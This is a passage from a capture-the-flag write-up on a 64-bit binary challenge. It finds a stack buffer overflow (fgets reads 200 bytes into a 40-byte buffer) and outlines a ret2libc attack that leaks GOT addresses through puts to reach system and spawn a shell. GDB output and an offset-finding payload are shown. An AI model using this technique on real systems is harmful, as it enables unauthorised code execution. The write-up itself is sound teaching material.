 This is the function used to get the user input, in which we can spot these lines : `char local_38 [40];`, `pcVar1 = fgets(local_38,200,stdin);`. The program is asking for an input of 200 bytes even tho `local_38` is only 40 bytes long : this is vulnerable to a buffer overflow.

There does not seem to be a win function, and ASLR is activated, but the file is dynamically linked and the program is using the `puts` function. This means we can execute a ret2libc.  
  
ret2libc is a way to bypass ASLR by leaking the GOT : this contains the addresses of functions from the libc used at run time by our program. Libc contains functions such as `system` we can use to spawn a shell. To find these addresses, we'll leak some of the GOT table entries by using the `puts` function to print them. Using this leak, we'll go online and determine which libc we're dealing with. Once we found the right one, we can use the offset between the function's address we have (such as `puts`), and the function's address we want (such as `system`), to calculate where we want to redirect program execution.

## Dynamic analysis

First let's use GDB to find out what offset we need to redirect program execution :

```gdb
gef➤  x/2i *service+256
   0x400a36 <service+256>:	call   0x400680 <fgets@plt>
   0x400a3b <service+261>:	test   rax,rax

gef➤  break *service+261
Breakpoint 1 at 0x400a3b

gef➤  r <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*40)')
```
```gdb
─────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffd9f0│+0x0000: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n"	 ← $rax, $rcx, $rsp
0x00007fffffffd9f8│+0x0008: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n"
0x00007fffffffda00│+0x0010: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n"
0x00007fffffffda08│+0x0018: "AAAAAAAAAAAAAAAAAAAAAAA\n"
0x00007fffffffda10│+0x0020: "AAAAAAAAAAAAAAA\n"
0x00007fffffffda18│+0x0028: "AAAAAAA\n"
0x00007fffffffda20│+0x0030: 0x00007fffffffda00  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n"	 ← $rbp
0x00007fffffffda28│+0x0038: 0x0000000000400b00  →  <main+0074> lea rdi, [rip+0xa56]        # 0x40155d
───────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400a2e <service+00f8>   mov    esi, 0xc8
     0x400a33 <service+00fd>   mov    rdi, rax
     0x400a36 <service+0100>   call   0x400680 <fgets@plt>
 →   0x400a3b <service+0105>   test   rax, rax
     0x400a3e <service+0108>   jne    0x400a4a <service+276>
     0x400a40 <service+010a>   mov    edi, 0xffffffff
     0x400a45 <service+010f>   call   0x4006d0 <exit@plt>
     0x400a4a <service+0114>   mov    DWORD PTR [rbp-0x4], 0x0
     0x400a51 <service+011b>   jmp    0x400a6f <service+313>
```
